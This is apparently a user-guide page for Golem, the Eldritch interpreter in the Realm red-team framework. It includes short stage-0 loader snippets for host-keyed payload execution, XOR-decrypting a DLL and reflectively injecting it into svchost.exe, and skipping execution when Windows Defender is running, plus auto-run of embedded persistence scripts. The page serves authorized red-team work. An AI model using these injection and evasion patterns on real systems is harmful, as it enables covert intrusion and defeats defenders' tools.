 ```yaml
---
title: Golem
tags:
 - User Guide
description: Golem User Guide
permalink: user-guide/golem
---
```

## What is Golem

Golem is the standalone interpreter for Eldritch.
This program exists to help users get experience with the Eldritch language as well as a jumping off point if you're interested in implementing your own program using the Eldritch language.

Golem can also be used operationally as an alternative to a system native shell.
You can leverage the power of Eldritch with minimal exposure in the system process tree.

## Try it out

```bash
git clone git@github.com:KCarretto/realm.git
cd realm/implants/golem
cargo run -- -i
# - or -
cargo build --release && \
    ../target/debug/golem ../../tests/golem_cli_test/tomes/hello_world.tome
```

## Golem embedded files

The Eldritch interpreter can embed files at compile time. To interact with these assets use the `assets` module in eldritch. In addition to programmatic access the embedded files can be automatically executed at run time. If no other option is specified `-i` or a file path, golem will iterate over every instance of `main.eldritch` in the embedded assets launching each one as a separate thread. This behavior is desirable when trying to perform recon or deploy persistence quickly.

## Golem as a stage 0

Golem can also be used as a stage 0 to load imix or other c2 agents.
This can help in a few ways such as:

- Keying payloads to specific hosts

```python
def main():
    if is_linux():
        if is_dir("/home/hulto/"):
            run_payload()
main()
```

- Executing encrypted payloads from memory

```python
def decrypt(payload_bytes):
    let res = []
    for byte in in payload_bytes:
        res.push(byte ^ 6)
    return res

def main():
    if is_windows():
        for proc in process.list():
            if "svchost.exe" in proc['name']:
                let enc_bytes = assets.read_bytes("imix.dll")
                sys.dll_reflect(decrypt(enc_bytes), proc['pid'], 'imix_main')
                return

main()
```

- Detecting security products before execution

```python
def main():
    for proc in process.list():
        if "MsMpEng.exe" in proc['name']:
            return
    run_payload()
main()
```
